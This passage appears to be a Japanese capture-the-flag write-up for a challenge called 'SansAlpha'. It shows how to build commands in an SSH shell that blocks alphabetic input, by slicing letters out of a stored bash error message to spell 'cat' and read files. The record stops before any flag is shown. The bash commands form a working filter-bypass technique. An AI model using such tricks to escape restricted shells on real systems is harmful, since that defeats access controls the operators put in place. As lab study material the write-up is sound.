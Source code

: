 難しかった！

sshでつなぐと、bashの上に「アルファベット入力全部弾く」フィルタが掛かったシェルに通される。

```bash
SansAlpha$ ls
SansAlpha: Unknown character detected
SansAlpha$ @@@
bash: @@@: command not found
```

流石に英字がないのは厳しいのでなんとか手に入れたい。エラー出力から手に入れよう。

- エラー出力を変数に代入し、
- その変数内の文字を1文字ずつ取り出し、
- バッククオートの中でコマンドとして実行させる

というアイディアで色々とコマンドが打てるようになる。

```bash
## 変数 $_1 に、エラー出力である "bash: @@@@@@: command not found" の文字列を代入
SansAlpha$ _1=`@@@@@@ 2>&1`

## 変数 $_1 をコマンドとして実行し、「bashはそんなコマンド知らないよ」エラーを受け取ることで、 $_1 の内容を確認
SansAlpha$ `"$_1"`
bash: bash: @@@@@@: command not found: command not found
##     ^      この間が $_1             ^
```

“bash: @@@@@@: command not found” の文字列から c, a, t が取り出せる。つまりcatコマンドが手に入る！

```bash
## $_1 の(0-originで) 14文字目(c), 1文字目(a), 24文字目(t) を $_2 に代入
SansAlpha$ _2="${_1:14:1}${_1:1:1}${_1:24:1}"

## pwdのファイルを全部catしてみる
SansAlpha$ `$_2 *`
cat: blargh: Is a directory
bash: The: command not found
```

“The” の部分はファイルが読めていそう。 “blargh” の部分は、その名前のディレクトリをcatしちゃってる。深入りしてみる。

```bash
## The の方のファイルの中身を $_3 に代入
SansAlpha$ _3=`$_2 *`
cat: blargh: Is a directory

## こっちのファイルにはフラグがない
SansAlpha$ `"$_3"`
bash: $'The Calastran multiverse is a complex and interconnected web of realities, each\nwith its own distinct characteristics and rules. At its core is the Nexus, a\ncosmic hub that serves as the anchor point for countless universes and\ndimensions. These realities are organized into Layers, with each Layer\nrepresenting a unique
 level of existence, ranging from the fundamental building\nblocks of reality to the most intricate and fantastical realms. Travel between\nLayers is facilitated by Quantum Bridges, mysterious conduits that allow\nindividuals to navigate the multiverse. Notably, the Calastran multiverse\nexhibits a dynamic nature, with the Fabric
of Reality continuously shifting and\nevolving. Within this vast tapestry, there exist Nexus Nodes, focal points of\nimmense energy that hold sway over the destinies of entire universes. The\nenigmatic Watchers, ancient beings attuned to the ebb and flow of the\nmultiverse, observe and influence key events. While the structure of
Calastran\nembraces diversity, it also poses challenges, as the delicate balance between\nthe Layers requires vigilance to prevent catastrophic breaches and maintain the\ncosmic harmony.': command not found

## blargh ディレクトリ名を $_5 に代入
SansAlpha$ _4=`$_2 * 2>&1`
SansAlpha$ `"$_4"`
```